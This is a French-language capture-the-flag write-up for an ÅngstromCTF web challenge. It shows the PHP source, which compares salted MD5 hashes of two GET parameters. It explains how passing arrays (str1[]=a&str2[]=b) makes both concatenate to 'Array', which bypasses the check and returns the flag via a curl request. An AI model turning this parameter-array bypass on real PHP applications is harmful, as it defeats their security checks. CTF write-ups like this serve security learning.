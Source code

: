 # Angstorm - CTF writeup - MD5 - 140 pts

- Le chall consiste en un formulaire  qui doit comparer deux string qui une fois hashé en md5 doivent donner la même valeur :

![web-md5-screen.png](web-md5-screen.png)

- On peut voir dans les sources le code php suivant :
```php
<?php
  include 'secret.php';
  if($_GET["str1"] and $_GET["str2"]) {
    if ($_GET["str1"] !== $_GET["str2"] and
        hash("md5", $salt . $_GET["str1"]) === hash("md5", $salt . $_GET["str2"])) {
      echo $flag;
    } else {
      echo "Sorry, you're wrong.";
    }
    exit();
  }
?>
```

- On constate qu'il n'y a que des comparaisons strictes, en `===` ou `!==`
- Le salt est le même des deux cotés : `hash("md5", $salt . $_GET["str1"]) === hash("md5", $salt . $_GET["str2"]))`
- Il faut donc arriver à faire en sorte que str1 soit égal à str2 tout en bypassant le test :  `$_GET["str1"] !== $_GET["str2"]`
- Pour se faire on va utiliser les tableaux en php car un tableau concaténé à un string produit la chaine 'Array':
```php
php > $a = array('str1');
php > $b = 'salt'.$a;
PHP Notice:  Array to string conversion in php shell code on line 1
php > var_dump($b);
string(9) "saltArray"
```

- Du coup en passant en paramètre deux tableaux différents, ceux-ci vont produire la même chaîne de caractère une fois concaténé au salt tout en passant le test d'inégalité des paramètres.

- Résultat : `http://web.angstromctf.com:3003/?str1[]=a&str2[]=b`
```
➜  ~ curl "http://web.angstromctf.com:3003/\?str1\[\]\=a\&str2\[\]\=b"
actf{but_md5_has_charm}
```
